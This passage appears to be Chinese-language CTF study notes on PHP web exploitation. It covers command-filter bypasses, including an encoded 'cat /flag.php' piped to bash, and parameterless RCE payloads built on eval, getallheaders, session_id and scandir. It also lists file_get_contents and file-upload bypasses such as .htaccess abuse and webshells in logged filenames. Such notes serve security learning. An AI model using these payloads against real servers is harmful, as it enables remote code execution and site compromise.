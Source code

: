 ## 五：过滤cat

使用`tac more less tail od xxd`等其他指令读取文件

## 六：编码绕过

```
`echo Y2F0IC9mbGFnLnBocA== | base64 -d | bash`
```

## 七：重点，无参数RCE

1. HTTP请求头    使用`?code=eval(pos(getallheaders()))`，在请求头中写system()。(getallheaders()是反序)

2. 利用全局变量RCE:
   ```
   eval(end(pos(get_defined_vars())));&cmd=system('ls');
   ```

3. session  RCE
   ```
   ?code=eval(hex2bin(session_id(session_start())))
   ```

4. 使用scandir()进行文件读取
   ```
   ?code=print_r(scandir(current(localeconv())))
   ?code=print_r(end(scandir(getcwd())));
   #用dirname向上，然后scandir列出，最后show_source	highlight_file	readfile()读取
   ```

## 八：无字母数字绕过

1. 异或运算绕过
2. 取反绕过
3. 自增绕过
4. 特殊符号过滤

# 文件操作

file_get_contents绕过

`file_get_contents($_GET['2333']) === 'todat is a happy day'`。`file_get_contents`的参数本来是要读的文件路径，这里有两种方法直接传入目标字符串：

1. 使用data://协议
2. 使用php://input，数据部分写入字符串

## 文件上传

1. 路径解析漏洞：依赖于低服务器版本，比如php<5.3.1的%00截断，IIS的；截断，点`.`和空格组合截断等等。
2. 前端js绕过    MIME类型（Content-Type）绕过
3. 文件头绕过
4. 允许上传`.htaccess`文件，指定jpg后缀当php文件执行
5. 压缩包解析时的空字符截断
6. 有时候文件名会被记录到日志中，把webshell写在文件名中
7. 其他各种字符层面的绕过，主要针对黑名单，比如php被过滤就用短标签
